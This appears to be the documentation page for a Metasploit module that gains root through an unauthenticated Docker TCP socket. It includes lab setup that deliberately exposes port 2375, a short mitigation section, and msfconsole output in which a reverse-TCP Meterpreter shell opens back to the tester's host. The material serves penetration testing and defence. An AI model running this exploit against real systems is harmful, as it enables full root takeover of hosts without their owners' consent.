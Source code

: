 # Vulnerable Application
Utilizing Docker via unprotected tcp socket (2375/tcp, maybe 2376/tcp
with tls but without tls-auth), an attacker can create a Docker
container with the '/' path mounted with read/write permissions on the
host server that is running the Docker container. As the Docker 
container executes command as uid 0 it is honored by the host operating
system allowing the attacker to edit/create files owned by root. This
exploit abuses this to creates a cron job in the '/etc/cron.d/' path of
the host server.

The Docker image should exist on the target system or be a valid image
from hub.docker.com.

## Docker Engine
By default, Docker runs via a non-networked unix socket. It can also
optionally communicate using a tcp socket.

> Warning: Changing the default docker daemon binding to a TCP port or
Unix docker user group will increase your security risks by allowing
non-root users to gain root access on the host. Make sure you control
access to docker. If you are binding to a TCP port, anyone with access
to that port has full Docker access; so it is not advisable on an open
network. -- [from docs.docker.com][1]

This module was tested with Debian 9 and CentOS 7 as the host operating
system and with Docker CE 17.06.0-ce and Docker Engine 1.13.1.

### Install Debian 9
First [install Debian 9][2] with default task selection. This includes
the "*standard system utilities*".

### Install Docker
Then install a supported version of [Docker on Debian system][3].

```bash
# TL;DR
apt-get remove docker docker-engine
apt-get install apt-transport-https ca-certificates curl gnupg2 software-properties-common
curl -fsSL https://download.docker.com/linux/debian/gpg | apt-key add -
apt-key fingerprint 0EBFCD88
# Verify that the key ID is 9DC8 5822 9FC7 DD38 854A E2D8 8D81 803C 0EBF CD88.
add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/debian $(lsb_release -cs) stable"
apt-get update
apt-get install docker-ce
docker run hello-world
```

### Activate unprotected tcp socket
Once Docker is installed, customize the Docker daemon options and add
the tcp socket `-H tcp://0.0.0.0:2375` option. On Debian override the
settings from `/lib/systemd/system/docker.service` with a new file
`/etc/systemd/system/docker.service`.

Further information: [docker systemd][4] and [docker daemon options][5]. 

```bash
# TL;DR
echo "[Service]
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375" | tee /etc/systemd/system/docker.service
systemctl daemon-reload
systemctl restart docker
curl http://127.0.0.1:2375/_ping ; echo
OK
```

### Mitigation

[Disable][5] or [protect][6] the Docker tcp socket.

# Exploitation
This module is designed for the attacker to leverage, creation of a
Docker container with out authentication through the Docker tcp socket
to gain root access to the hosting server of the Docker container.

## Options
- DOCKERIMAGE is the locally or from hub.docker.com available image you are wanting to have Docker to deploy for this exploit.
- CONTAINER_ID if you want to have a human readable name for your container, else it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/docker_daemon_tcp
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a Docker container and it successfully runs
- [ ] After a minute a session should be opened from the Docker server

## Example Output
```
msf > use exploit/linux/http/docker_daemon_tcp
msf exploit(docker_daemon_tcp) > set RHOST 192.168.66.23
RHOST => 192.168.66.23
msf exploit(docker_daemon_tcp) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(docker_daemon_tcp) > set LHOST 192.168.66.10
LHOST => 192.168.66.10
msf exploit(docker_daemon_tcp) > set VERBOSE true
VERBOSE => true
msf exploit(docker_daemon_tcp) > check
[+] 192.168.66.23:2375 The target is vulnerable.
msf exploit(docker_daemon_tcp) > run

[*] Started reverse TCP handler on 192.168.66.10:4444
[*] Check if images exist on the target host
[*] Image is not available on the target host
[*] Trying to pulling image from docker registry, this may take a while
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for deploy
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Waiting until the docker container stopped
[*] The docker container has been stopped, now trying to remove it
[*] Sending stage (2878936 bytes) to 192.168.66.23
[*] Meterpreter session 1 opened (192.168.66.10:4444 -> 192.168.66.23:35050) at 2017-07-25 14:03:02 +0200
[+] Deleted /etc/cron.d/lVoepNpy
[+] Deleted /tmp/poasDIuZ


meterpreter > sysinfo
Computer     : rancher
OS           : Debian 9.1 (Linux 4.9.0-3-amd64)
Architecture : x64
Meterpreter  : x64/linux
meterpreter >
```

[1]:https://docs.docker.com/engine/reference/commandline/dockerd/#bind-docker-to-another-hostport-or-a-unix-socket
[2]:https://www.debian.org/releases/stretch/amd64/index.html.en
[3]:https://docs.docker.com/engine/installation/linux/docker-ce/debian/
[4]:https://docs.docker.com/engine/admin/systemd/
[5]:https://docs.docker.com/engine/reference/commandline/dockerd/#options
[6]:https://docs.docker.com/engine/security/https/
